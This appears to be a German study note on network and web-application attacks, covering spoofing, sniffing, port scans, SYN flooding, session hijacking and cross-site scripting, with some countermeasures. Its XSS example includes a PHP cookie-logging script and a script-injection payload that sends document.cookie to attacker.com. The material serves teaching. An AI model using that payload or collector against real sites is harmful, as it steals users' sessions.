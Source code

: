 # Klassifikation von Verwundbarkeiten und Angriffen
- header-basiert
	- Manipulation der Header-Felder, z.B. alle Bits auf "0"
- protokollbasiert
	- Verstoß gegen die prozessuralen Aspekte / Ablauf eines Protokolls. Eine Verwundbarkeit in einem Protokoll wird ausgenutzt
- authentifizierungsbasiert
	- alle Aspekte in Verbindung mit dem Schutzziel Authentizität, z.B. Eingriffe / Manipulation einer Authentifizierung
- verkehrsdatenbasiert
	- alle Verkehrsdaten sind relevant, z.B. sniffing (Mitlesen mittels Wireshark)

Jede dieser Verwundbarkeiten kann auf jeder Schicht des [[OSI und TCP-IP Referenzmodell|Schichtenmodells]] auftreten. 
Zusätzlich lässt sich der Benutzer auch noch als Layer 8 im [[OSI und TCP-IP Referenzmodell#^42221f|OSI-Referenzmodell]] bezeichnen, welcher mit [[04 Social Engineering|Social Engineering]] auch angreifbar ist.

# Netzzugangsschicht

## Gängige Angriffsmethoden
### Hardware Address Spoofing
- Fälschen von [[MAC-Adressen]], z.B. im [[Ethernet]]-Protokoll
- "Stehlen" der Rahmen, die für ein anderes Gerät bestimmt sind
- Umgehen einfacher Zugriffsbeschränkungen
	- z.B. MAC-Filterung -> MAC-Adressfilterung ist jedoch veraltet und unpraktisch
- fällt unter authentifizierungsbasiert, weil als jemand anderes ausgeben.
### Mitlesen des Netzwerkverkehrs (Sniffing)
- mitlesbarer Traffic abhängig von Position im Netzwerk
- ggf. zusätzlicher Aufwand notwendig, um alle Rahmen lesen zu können (Switch)
- besonders problematisch in offenen drahtlosen Netzen
### Physische Angriffe
- Angriffe gegen Verkabelung oder Netzwerkkomponenten
- Zerstörung, Manipulation, Sabotage
### Rogue Wireless Access Point
#TODO Rogue Wireless Access Point
### Fake Wireless Access Point
#TODO Fake Wireless Access Point

## Gängige Gegenmaßnahmen
- Verwendung von VLANs
- Zugriffsbeschränkung auf das Netzwerk (Network Access Control)
- WLANs:
	- bei offenen Netzen -> VPNs benutzen
	- nur Verwendung von sicheren Standards (~~WEP~~, ~~WPA~~, WPA2, WPA3)
	- korrekte Konfiguration sicherstellen

# Internetschicht
Siehe [[IPv4]] und [[IPv6]]

# Transportschicht
## [[TCP]]-Verbindungsaufbau missbrauchen
### Portscans
- Ermitteln von offenen Ports des Servers. Z.B. mithilfe von [[nmap]].
- Connect-Scan: vollständiger TCP-Verbindungsaufbau
- SYN-Scan: Abbruch nach Antwort des Servers
### Denial-of-Service-Angriff
- Überfluten des Servers mit SYN-Nachrichten
- Verbrauchen sämtlicher Ressourcen für TCP-Verbindungen
- keine Verbindung zu Server-Dienst mehr möglich
-> **SYN-Flooding** z.B. mit [[hping3]].
**Gegenmaßnahmen gegen SYN-Flooding:**
-> SYN-Cookies
- Speichern der für den Verbindungsaufbau benötigten Daten in Sequenznummer

# Anwendungsschicht

# Web Application Security
besteht aus:
- Präsentation der Daten im Webbrowser
- Applikationslogik vom Applikationsserver
- Datenbank im Hintergrund als Persistenz-Schicht

## Session Hijacking
**Definition:** Der Angriff Session Hijacking zielt darauf ab, dass ein Angreifer eine gültige Benutzersitzung (Session) übernimmt, um sich als dieser User auszugeben.

Session-IDs können zum Beispiel an folgenden Stellen auftauchen:
- Als URL-Parameter:
`https://www.domain.com/index.php?id=4711`
- Im Pfad:
`https://www.domain.com/4711/index.php`
- Als Hidden Field im HTML-Code:
`<input type="hidden" name="PHPSESSID" value="4711">`
- Als Cookie:
```
GET /index.php HTTP/1.1
Host: www.domain.com
Cookie: session=4711
```
- Local Storage bzw. Session Storage

## Cross-Site Scripting
**Definition:** Beim Cross-Site Scripting (abgekürzt: XSS) injiziert ein Angreifer schädlichen JavaScript-Code in eine Webseite, der später im Browser anderer Nutzer ausgeführt wird.

### Beispiel
PHP-Skript auf dem Server:
``` php
<?php
	$cookie=($_GET['cookie']);
	$myFile = "CollectedSessions.txt";
	$fh = fopen($myFile, 'a') or die("can't open file");
	$stringData = $cookie."\n";
	fwrite($fh, $stringData);
	fclose($fh);
?>
```
JavaScript Code Injection:
``` html
<script>
	document.location='https://www.attacker.com/cookie_recv.php?cookie='
	+ document.cookie;
</script>
```

## Session Fixation
**Definition:** Bei einer sog. Session Fixation setzt ein Angreifer die Session-ID eines Opfers im Voraus fest und bringt das Opfer dazu, diese Session zu verwenden.
